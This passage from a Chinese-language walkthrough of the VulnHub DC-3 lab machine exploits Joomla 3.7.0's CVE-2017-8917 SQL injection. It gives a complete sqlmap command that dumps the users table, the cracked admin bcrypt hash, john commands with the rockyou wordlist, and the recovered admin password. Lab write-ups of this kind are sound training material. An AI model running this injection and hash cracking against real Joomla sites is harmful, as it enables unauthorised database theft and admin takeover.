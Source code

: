 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/15.png)

Joomla 3.7.0 有个 CVE-2017-8917 SQL 注入漏洞，更多漏洞信息和 POC 见 [BS-Exploits](../../../../笔记/RedTeam/漏洞利用/BS-Exploits.md#Joomla)

直接 SQLMAP 走起
```bash
sqlmap -u "http://192.168.141.138/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables -T '#__users' -C name,password --dump
```

一路 y 就行了，可以看到跑出了后台账号密码

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/6.png)

```
| admin | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
```

密码是 bcrypt 加密的, hashcat 和 john 都可以跑,在 DC1 中使用 hashcat 跑了密码，这里就用 john 跑一跑
```bash
echo "\$2y\$10\$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/7.png)

ok,跑出密码 `snoopy` ,登录,注意不是在 `http://192.168.141.138/index.php` 登录，而是在 `http://192.168.141.138/administrator/index.php` 登录，这 TM 才是后台
